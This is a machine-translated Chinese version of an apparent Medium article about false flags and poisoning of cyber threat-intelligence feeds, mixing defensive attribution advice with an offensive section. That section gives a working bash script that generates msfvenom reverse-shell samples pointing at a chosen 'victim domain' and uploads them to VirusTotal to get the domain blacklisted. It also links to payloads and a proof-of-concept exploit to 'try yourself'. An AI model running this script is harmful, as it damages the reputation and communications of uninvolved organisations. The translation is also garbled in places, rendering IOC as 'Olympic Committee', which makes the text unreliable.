






# 网络威胁情报行动中的假信号

> 原文：<https://medium.datadriveninvestor.com/false-flags-in-cyber-threat-intelligence-operations-6893af697080?source=collection_archive---------3----------------------->

## 了解如何减轻来自对手欺骗的假信号以及错误情报注入对网络安全的影响。

网络上到处都有类似“[假新闻](https://www.pewresearch.org/2019/06/05/an-update-on-our-research-into-trust-facts-and-democracy/)”的术语；在安全领域，这相当于“假旗”。如今，在几乎所有的《财富》100 强企业中，网络威胁情报( [CTI](https://www.cisecurity.org/blog/what-is-cyber-threat-intelligence/) )项目将对此做些什么？

毕竟，有大量的信息以付费和[在线](https://www.sans.org/blog/-must-have-free-resources-for-open-source-intelligence-osint-/)的形式传播出去，丰富和增加了网络安全卫士可能在他们自己的网络中看到的任何指标的价值。这些以私人或公共方式进行的社区驱动的工作在报告敌对特征时采用了“尽最大努力”的方法。这种努力和公开交流带来了一个沉重的负担，即试图验证和认证妥协指标(IOC)以及可能的归属(如果有的话)。

我们表面上的问题很简单:*如果你的威胁情报充满了“假信号”呢？你可能会嘲笑虚假标志报告的想法，任何轶事经验可能会告诉你相反的情况；但是让我们来看看对 CTI 和更大的安全社区进行各种破坏是多么准确和相对容易。以下是对手想要通过全球 CTI 运营运行假标志的一些原因:*

*   破坏反对派声誉或可接近性的地缘政治问题
*   为防御方浪费时间的[诱饵攻击](https://medium.com/swlh/catch-me-if-you-can-a-rogue-cyber-security-professional-80010d542285)指标提供更高的“可信度”
*   压倒性的 CTI 基础设施供给和 IOC 分析瘫痪效应

# 我在 CTI 的背景

对于不知道我是[同事](https://www.linkedin.com/in/dwchow/)的人；我在 CTI 的背景主要是医疗保健。2015 年，我在 [Harris Health System](https://www.phe.gov/Preparedness/planning/cip/Documents/aspr-cti-report.pdf) 工作，当时我们的 CISO 进来给了我们一笔 RFP 拨款，用于指导整个美国医疗保健垂直行业在 CTI 共享方面的标准。我们最终战胜了许多其他知名团体。[杰夫·罗宇胜](https://www.databreachtoday.com/blogs/sharing-threat-intelligence-pinpointing-gaps-p-2062) (CISO)领衔战略；当我在后端编写 RFP 响应、架构时，进行了全国范围的调查，并创建了今天正在使用的分析和技术建议。今天，医疗保健专门部门[艾萨克的](https://www.csoonline.com/article/3406505/what-is-an-isac-or-isao-how-these-cyber-threat-information-sharing-organizations-improve-security.html)、国土安全部[和卫生与公众服务部](https://www.us-cert.gov/ais)[使用我的蓝图作为美国医疗保健系统中每个上游和下游实体的指南。](https://www.cyberscoop.com/hhs-offering-400000-to-jumpstart-health-care-info-sharing/)

[](https://www.datadriveninvestor.com/2020/04/10/the-futility-and-hope-of-cybersecurity-in-todays-organizations/) [## 当今组织中网络安全的无用性(和希望)|数据驱动的投资者

### 随着世界与疫情的斗争，组织越来越多地在打一场旷日持久且注定失败的战争…

www.datadriveninvestor.com](https://www.datadriveninvestor.com/2020/04/10/the-futility-and-hope-of-cybersecurity-in-todays-organizations/) 

# 放弃

本文中表达的所有信息、工具和观点仅用于教育目的。不要将本文的任何部分或其相似部分用于非法和不道德的用途。作者不会对你的行为负责。

# 名誉干涉的真实案例

基于我的研究和戳；我成功地向一位客户证明了 CTI 对手注入确实是可能的，并且根据注入的具体时间和规模，可能对实体产生重大影响。我们选择使用 [VirusTotal](https://www.virustotal.com/gui/home) ,因为它是一个广受欢迎的知名网站，是一些 CTI feeds 的基础。简而言之，我们创建了各种类型的恶意软件样本，包括二进制文件、脚本和其他易于检测的通用有效负载，并执行了 [RPA](https://www.uipath.com/rpa/robotic-process-automation) 上传到 VirusTotal 的旋转浏览器指纹和 VPN/代理 IP 服务，以掩盖来源。不到 15 份样本；我们能够将客户端域列入黑名单 48-72 小时，直到包括赛门铁克、微软和 BlueCoat 在内的不同供应商验证白名单提交。由此产生的病毒总数显示了我们的结果如下:



正如你所看到的，我们在 2018 年的一段时间为客户做了“烧伤检查”项目，因为他们当时正在考虑 M&A。为了自己的声誉，各种各样的客户希望检查他们的数字足迹，做他们的投资者尽职调查。客户的主页域名与他们的电子邮件相同。因此，多供应商黑名单在任何时候都是非常糟糕的。如果我们把这个时间安排在重大公告或投标期间，我们可能会被作为恶意域阻止，从而多次阻碍来自其他使用流行安全技术的企业的通信。

我们的示例生成器脚本如下:

```
!#/bin/bash
#Take user input interactive style
#This script is for educational purposes only under GPLv2
#The author takes NO responsibility for illegal activities or abuse with it
#https://github.com/dc401/
#Dennis Chow 2020-July-05 dchow[AT]xtecsystems.com
echo "type victim domain for CTI injection:"
read victim_domain
echo "generating for ${victim_domain}"
echo "enter virustotal API"
read vt_api
echo "will upload using ${vt_api}"
#Define array for msfvenom to use
payloads=(
	"windows/dllinject/reverse_tcp_dns"
	"python/meterpreter/reverse_http"
	"windows/shell/reverse_tcp"
	"windows/shell/reverse_tcp_allports"
	"windows/x64/meterpreter_reverse_http"
	"windows/x64/powershell_reverse_tcp"
	)
counter=0
#Iterate over the array
for i in "${payloads[@]}"
do
	#eval "msfvenom -p i LHOST=${victim_domain} LPORT=443 -f exe > /tmp/malware_sample_${counter}"
	#Generate malware samples to be uploaded
	msfvenom -p i LHOST=${victim_domain} LPORT=443 -f exe > /tmp/malware_sample_${counter}
	((counter++))
	echo "sample ${i} written to disk in /tmp"
	#upload files to virustotal for injection
	echo "uploading sample ${counter} to virustotal.com..."
	curl --request POST \
	 --url [https://www.virustotal.com/api/v3/files](https://www.virustotal.com/api/v3/files) \
	 --header "x-apikey: ${vt_api}" \
     --form file=@/tmp/malware_sample_${counter}
	echo "Waiting 10 seconds..."
	sleep 10
done
```

随着时间的推移，初始冲击后的域名最终被列入白名单；但即使到了今天，仍然有 2 家供应商仅仅因为之前的恶意软件文件关联检测就将客户的域列入黑名单。这种缓慢的衰退速度，尤其是如果不采取行动或不加制止，类似于盗窃信用卡是一个受害者的身份盗窃。如果威胁情报是数据摄取的主要来源，影响也可以在长期[机器学习模型](https://ebiquity.umbc.edu/_file_directory_/papers/893.pdf)中持续更久。

你可能会怀疑这是否还有可能；出于本文的目的，我们再次尝试了相同的方法，这一次明显更难将域名本身列入黑名单，甚至在 VirusTotal 上作为 IOC 提及。注意:它不一定是 VirusTotal，可以是任何数量的 CTI 社区，如 AlienVault OTX、Anomali、ThreatStream，甚至是[新兴威胁 Snort 签名](https://doc.emergingthreats.net/bin/view/Main/EmergingFAQ)。



正如你从上面看到的，我只是使用了 GoDaddy 的一个名为“xtecresearch.cloud”的一次性域名，它只是将用户重定向到我的中等配置文件。请注意，我已经提交了多份申请，但仍在许多网络过滤供应商的 0 特定黑名单上。然而，有许多反病毒引擎检测与我提供的假样本有关。我加的越多，最终名声越差。我们将在文章的后面用**完整源代码**强调一些注入和有效负载。但是，作为 CTI 专业人员和威胁猎人，让我们关注如何识别假信号并帮助验证我们的发现。

# 从信号中识别噪声

很多次，我看到新的 CTI 分析师在恶意软件分析期间犯了只搜索基本字符串和行为*的错误。虽然毫无疑问这些都是有用的活动；你必须小心依赖这些静态的和基于原子的指标，正如你在前面章节中从我们自己的研究中看到的。因此，您可以关注哪些方面来帮助您阻止虚假标记，并将它们识别为蓄意注入者和诋毁者。请考虑以下情况:*

*   关注 T4 TTP，而不是更原子化的指标。原子指示器主要是散列、域、IP、字符串等。这很容易被欺骗。从可靠来源成功识别已经与 APT 相关联的恶意软件家族或宣传活动( [Rapid7](https://www.rapid7.com/info/threat-report/) 、[帕洛阿尔托](https://pan-unit42.github.io/playbook_viewer/)、[威瑞森](https://enterprise.verizon.com/resources/reports/dbir/)、[火眼](https://www.fireeye.com/current-threats/threat-intelligence-reports.html)等)。)真的有帮助
*   利用 MITRE [ATT & CK](https://attack.mitre.org/) 框架、CTI [钻石模型](https://digital-forensics.sans.org/summit-archives/cti_summit2014/The_Diamond_Model_for_Intrusion_Analysis_A_Primer_Andy_Pendergast.pdf)，甚至国家情报总监办公室( [DNI](https://www.dni.gov/files/CTIIC/documents/ODNI_A_Guide_to_Cyber_Attribution.pdf) )模型的正确使用和覆盖，其中包括:贸易技术、基础设施、恶意软件、意图和外部来源指标
*   如果你的项目允许的话，进行安全的初步研究，包括渗透到黑暗的网络市场
*   检查并关联[地缘政治事件](https://www.recordedfuture.com/geopolitical-cyber-operations/)时机根据 TTP 已知的垂直竞选活动建立一个可能和不可能的对手或团体的列表。大家可能会想到 Duqu 和 Stuxnet 等已知的例子。
*   根据以下因素，使用不同级别的检查和置信度评估任何恶意软件样本:已知的现有“现成商业”日常恶意软件，来自暗网或 pen tester 工具，以及它们最近已知的活动目标和基础架构来源。*例如:如果最近几个活动是韩语的钓鱼邮件，而你看到的是同样的恶意软件“家族”,字符串显示为俄语；有可能是它的假标记注入*

# 有用的工具

除了通过利用建模进行手动验证之外，还有一些值得一看的工具可以帮助您提高自信的*威胁分类*(非归因)的成功率。让我们深入了解其中一些:

*   对于地缘政治或大众新闻信息: [ClaimBuster](https://idir.uta.edu/claimbuster/factchecker/) —只需输入一个查询，它就会在左右面板交叉验证多个新闻、评论和社交媒体来源。它对特定的 APT 和恶意软件活动并不真正有用，但对地缘政治事件更有用。



如果您在左侧看到更多项目；现有的知识来自不同的来源，而不是在右侧窗格中有类似声明的有价值的新闻报道。这可能是由多种因素造成的，包括你具体的用词和事件的及时性。您可以注册一个 [API](https://idir.uta.edu/claimbuster/) 来自动完成大部分工作，并将其集成到您的威胁英特尔平台中。如果您正在观看活动或新闻，您还可以查看 [FactStream](https://reporterslab.org/factstream-app-now-shows-latest-fact-checks-from-post-factcheck-org-and-politifact/)



*   关联地缘政治行业垂直风险:Splunk [SPL](https://www.splunk.com/pdfs/solution-guides/splunk-quick-reference-guide.pdf) 查询+新闻获取 RSS 源。如果您是 Splunk 商店，我创建了一些示例查询供您使用:

```
#Use Case Example Healthcare Vertical Cyber Risk Profiling Weighted Model
index="rssfeeds" | eval riskScore=case(like(summary_detail_value, "%breached%"),"10", like(summary_detail_value, "%compromised%"),"10", like(summary_detail_value, "%retaliation%"),"5", like(summary_detail_value, "%malware%"),"5", like(summary_detail_value, "%infected%"),"8", like(summary_detail_value, "%healthcare%"),"3", like(summary_detail_value, "%scada%"),"3", like(summary_detail_value, "%isis%"),"2", like(summary_detail_value, "%china%"),"1", like(summary_detail_value, "%russia%"),"1", like(summary_detail_value, "%europe%"),"1", like(summary_detail_value, "%disrupt%"),"2", like(summary_detail_value, "%announced%"),"2", like(summary_detail_value, "%unknown threat%"),"2" ) | where (riskScore!="" AND riskScore>=0) | timechart span=1d avg(riskScore) AS Risk_Score_Avg | predict Risk_Score_Avg future_timespan=7
```



*   情感分析和总结:PowerShell 和微软 AI API 的 [NLP 的](https://azure.microsoft.com/en-us/services/cognitive-services/text-analytics/)。您可能希望对已知的静态字符串、找到的原子域指示符以及任何利用语言隐写的命令和控制有效负载运行这些。*注意:这些是我在 2016 年使用的旧脚本，有些项目可能需要更改或更新。*

```
<#
	#inteltldrPS v1.0 - Intelligence Too Lazy Didn't Read

	Requirements:
	Powershell v3 or higher and a Microsoft API key for "Text Analytics"

	Note: You may get hit or miss results using this API. It requires
	very clearn and scrubbed text without special characters in most
	cases. In our opinion it isn't ready for prime time yet. It also
	refuses to handle larger text files.

	This is licensed under GPLv2 and is free for use with no warranties.

	Usage: intelimageCrawlerPS.ps1 -i urloftext -k apikey

	-i parameter = a list of single line urls such as [https://google.com/robots.txt](https://google.com/robots.txt)
	-k parameter = api key that you get when you sign up with Microsoft

	dennis.chow[AT]scissecurity.com
	www.scissecurity.com

	#>  #cli_parameters
	param([string]$i, [string]$k);  #Microsoft Cognitive API is picky. Have to have prescrubbed plain text.
	#html tag stripper function
	function htmlStrip ($results)
		{
		#using .NET toString method to ensure PS doesn't interpret same var incorrectly
		$results = $results.toString()
		$results -replace '<[^>]*(>|$)'
		}  <#
	#get input url from UI
	Try
	{
		#UI is too ugly
		#$sourceUrl = [string]$Host.ui.ReadLine()
		[string]$sourceUrl = Read-Host "Enter a URL such as https://foobar.com"
	}
	Catch
	{
		Write-Host "URL requires http:// or https:// prefix e.g. https://cnn.com"
	}
	#>  #New instance .NET client as object
	$webClient = New-Object Net.WebClient
	[string]$results = $webClient.DownloadString($i)  #Call local function htmlStrip and utilize explicit argument else null
	[string]$cleanResults = htmlStrip $results  #convert to awful JSON format for API required input
	$body = [ordered]@{
	    "documents" = 
		@(
	        @{ "language" = "en"; "id" = $i; "text" = $cleanResults }
	    )
	}  $jsonBody = $body | ConvertTo-Json  #Begin Text Analytics API Call with Invoke-RestMethod wrapper
	[string]$apiUrlphrases = "https://westus.api.cognitive.microsoft.com/text/analytics/v2.0/keyPhrases"
	[string]$apiUrlsent = "https://westus.api.cognitive.microsoft.com/text/analytics/v2.0/sentiment"
	[string]$apiKey = $k  $headers = @{ "Ocp-Apim-Subscription-Key" = $apiKey }  $resultPhrases = Invoke-RestMethod -Method Post -Uri $apiUrlphrases -Headers $headers -Body $jsonBody -ContentType "application/json"  -ErrorAction Stop  $resultSent = Invoke-RestMethod -Method Post -Uri $apiUrlsent -Headers $headers -Body $jsonBody -ContentType "application/json"  -ErrorAction Stop  #Write-Host "Key Phrases:" $resultPhrases.documents.keyPhrases
	$resultPhrases.documents.KeyPhrases | Group-Object | Sort-ObjectWrite-Host "Sentiment Score:"$resultSent.documents.score
```

# 归因设置中的适当注意

我总是遇到一些人“不顾一切地”寻找“是谁做的”，而不是对分组进行分类，并记录“为什么和如何”有许多方法来欺骗和掩盖流量和其他 IOC:尤其是原子的。虽然您可以找到可能的受害者或已知的僵尸网络源基础设施，并将其归因于特定的 IP 地理位置，但重要的是要记住，它们可能是更大的僵尸网络或控制器组的中间受害者。

在归因时，我提供了关于你需要多努力的观点。第一个观点与我密切相关，它来自卡巴斯基团队，有胡安·格雷罗·萨德和布莱恩·巴塞洛缪。一个关于归因的精彩演示，以及如何提取 TTP 对情报价值分类的关注，而不是追逐幽灵。一定要追踪人物角色，并确保它与你根据钻石模型调查的指标相匹配。使用钻石模型，通过识别针对受害者或目标的实用性测试中的冲突来消除归因错误。恶意软件和工具作者也不愿意拆除和改变他们的攻击者套件的每个属性，其中一些可以通过[丰富的标题](https://www.sans.org/reading-room/whitepapers/reverseengineeringmalware/leveraging-pe-rich-header-static-malware-detection-linking-39045)聚集。

他们的讲座如下所示:

Team Kaspersky Views on False Flags

我提出的第二个观点是，CTI 社区的很大一部分仍然在利用绝大多数基于原子的知识产权，并依靠二次研究来增加新的发现和丰富。Rendition InfoSec 的杰克·威廉姆斯(Jake Williams)就 2016 年 DNC 黑客攻击中的假标志操作发表了自己的看法。他演讲也如下:

Jake William’s Views on False Flags

# 带有链接的有效负载，这些链接指向用于伪造恶意软件样本的来源

正如承诺的那样，我们将关闭一些链接，这些链接指向我们曾经成功毒害 VirusTotal 提要一段时间的示例负载。再说一次，这是我们客户允许的约定的一部分，我们扭转了造成的损害。自己试试这些:

*   [基于 Slack C2 的框架有效载荷](http://cyber.secbi.com/click.track?CID=430719&AFID=470105&ADID=2364204&SID=WD)
*   标准框架包括 [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) 和 [PSEmpire](https://github.com/EmpireProject/Empire)
*   [C#示例普通反向 TCP Windows Shell](https://www.puckiestyle.nl/c-simple-reverse-shell/)
*   修改了来自 [Guardicore 的 CVE-2020–3952](http://cyber.guardicore.com/click.track?CID=429820&AFID=470105&ADID=2435259&SID=WD)的概念验证利用代码
*   从病毒总量看我们的研究

```
15E23A413AD057DEEF29E0488BEB4F8CB9E9AB74843F9001BBF0D14616627C08 <-- reverse_tcp venom15E23A413AD057DEEF29E0488BEB4F8CB9E9AB74843F9001BBF0D14616627C08 <-- C# PSEmpire734D20044B970C2EA4DA4C2B8291C6AD063D131B813F01C417489F1217034B41 <-- EICAR batch ncat
6E81210074403FBB3102CE877D3436B15466C93385E9D751E122F1E1EF568B6C <-- C# .NET Plain 8080
```

# 关闭

我希望您已经思考了一些关于不同 CTI 源和社区驱动的安全内容中的错误标志和注射简易性的问题。我们都应该对我们在安全防御计划中吸收的国际奥委会持合理的怀疑态度。一如既往，请随时让我们知道您的想法，以及您是否需要网络安全服务；你可以在 www.scissecurity.com[找到我](https://www.scissecurity.com/)

**访问专家视图—** [**订阅 DDI 英特尔**](https://datadriveninvestor.com/ddi-intel)